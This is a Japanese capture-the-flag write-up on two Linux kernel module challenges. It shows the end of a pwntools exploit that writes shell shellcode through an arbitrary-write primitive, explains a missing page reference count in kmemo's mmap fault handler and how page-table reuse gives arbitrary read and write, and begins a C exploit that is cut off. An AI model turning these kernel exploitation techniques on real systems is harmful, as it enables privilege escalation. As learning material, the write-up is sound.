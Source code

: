 ```python
    ''')
    aaw(target+8, asm(shellcraft.sh())+b'\x04')
    back()

```

結局バグはいろいろ解釈ができそうですが、ユーザプロセス側都合の守りたいアドレスはカーネルはケアしないので、実際にまじめに書いていてもこういうことが起りそうでおもしろかったです。

- free_spaceはページのオフセットを超える指定ができてしまう
- __pgoff_to_memopageはpgoffの上限チェックをしていない
- chrdev_readはf_posの上限をチェックしていない

それはそれで、この問題はやれることが少く作ってあったのでオーバーラップは見られるべきで、従ってこのバグは発見できるべきでした。反省。

# kmemo
ほぼ答えを見てそのままなぞる形になりました。

バグは1か所だけで、mmapのfaultで取られるページには、参照カウンタのインクリメントがないようです。このモジュールのfdをバインドしてmmapしたあと、munmapを使うと解放され、そのあとの他の場所でページフォルトが起こると、同じアドレスを取るようになります。

```c
static vm_fault_t mmap_fault(struct vm_fault *vmf){
        struct memo *memo = vmf->vma->vm_private_data;
        if(!memo)
                return VM_FAULT_OOM;

        char *data = get_memo_rw(memo, vmf->pgoff << PAGE_SHIFT);
        if(!data)
                return VM_FAULT_OOM;

        vmf->page = virt_to_page(data);

        return 0;
}
```

一見正しそうに動いているのですが、munmapを使った後も、ページテーブルにはアドレスが残り続け参照できますので、これを利用します。memoモジュールには3段のページテーブルが実装されていて、オフセットに対応してtop、mid、その下に各アドレスが並びます。

1ページが `1<<12`のサイズ単位で区切られ、midのテーブルが`1<<(12+9)`のサイズ単位で区切られます。topは1つです。想定解がこれを利用したきれいなAARWの構築方法を使います。といっても、munmapで解放するページのオフセットと、そのあとでフォルトを起こすオフセットをmidのサイズ単位である`1<<(12+9)`を超えればよいだけです。midのテーブルの単位異常の差があると、当然新しくmidのテーブルが追加されますが、これがreuseされたアドレスになります。

例えばオフセット`1<<21`でmmapした後書き込み、munmapして、今度はオフセット0に書き込みます。そうすると、`1<<21`のmidテーブルの先のmunmapされたアドレスは、オフセット0のmidテーブルを指します。あとは、オフセット`1<<21`に値を書き込むと、オフセット0のポインタをコントロールできるようになるので、これを使って自由に読み書きできるようになります。

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>

#define ADDR_IDT 0xfffffe0000000000

uint64_t buffer[0x100];
int fd = 0;
uint64_t *mem = NULL;

void exploit_pause() {
        puts("[+] pause!");
        getchar();
}

```